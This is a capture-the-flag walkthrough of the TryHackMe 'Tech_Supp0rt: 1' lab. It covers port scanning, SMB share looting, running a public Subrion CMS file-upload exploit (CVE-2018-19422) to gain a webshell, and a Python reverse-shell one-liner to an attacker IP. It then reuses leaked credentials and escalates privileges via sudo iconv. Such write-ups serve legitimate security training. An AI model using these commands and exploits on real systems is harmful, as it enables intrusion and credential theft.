# THM - Tech_Supp0rt: 1

#### Ip: 10.10.199.225
#### Name: Tech_Supp0rt: 1
#### Rating: Easy

----------------------------------------------------------------------


```text
Hack into the scammer's under-development website to foil their plans.
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -p-  --min-rate 10000 10.10.199.225                     
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -sC -sV -T4 10.10.199.225 -p 22,80,139,445              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m58s, deviation: 3h10m30s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-09T21:03:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-08-10T02:33:45+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds
```

Heading to the site we find an Apache default landing page:



We can use Feroxbuster to fuzz for directories:



Looks like we've got a `/test` directory, as well as several WordPress directories. 

Heading to http://10.10.199.225/test we find an extremely spammy page:



Before enumerating HTTP any further, lets check out SMB to see if we can find anything.

I'll see what shares we can access using CrackMapExec:



Looks like there's a `websvr` share we can access. To do this I'll use smbclient:



Pulling back this file to my machine we find a todo list and some credentials:



This password appears to be encrypted. Going off the hint in the note I'll head to https://gchq.github.io/CyberChef/ and use the 'Magic' feature to decode this:



Based on the note we can navigate to http://10.10.199.225/subrion/panel/ and login with the credentials:



Now that we have working credentials, I searched for Subrion version 4.2.1 exploits and found: https://www.exploit-db.com/exploits/49876

Looks like the exploit logs in with the user provided credentials and uploads a webshell. 



Lets give it a shot:

### Exploitation

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ python subrion_exploit.py -u http://10.10.199.225/subrion/panel/ --user admin --passw Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.199.225/subrion/panel/
[+] Success!
[+] Got CSRF token: a52ERKms3Eqillk50kRWwd1iPFgJmxhpCTOdVI4B
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: jsniraeesrslatp

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.199.225/subrion/panel/uploads/jsniraeesrslatp.phar 

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Nice, that worked!

Lets use a Python one-liner to get a proper shell rather than using this pseudo shell:

We can head to revshells.com and grab the script:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



Browsing around the box I found `/var/www/html/wordpress/wp-config.php` which had some credentials in it:

```text
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

We can see who may be using this password and then use the `su` command:

```text
www-data@TechSupport:/var/www/html/wordpress$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ whoami
whoami
scamsite
```

Cool, that worked. We can now run `sudo -l` to see what user scamsite can run with eleveated permissions:



We can now head to https://gtfobins.github.io/gtfobin and search for iconv:



Lets use this to read the root.txt flag:



Thanks for following along!

-Ryan

----------------------------------------------------

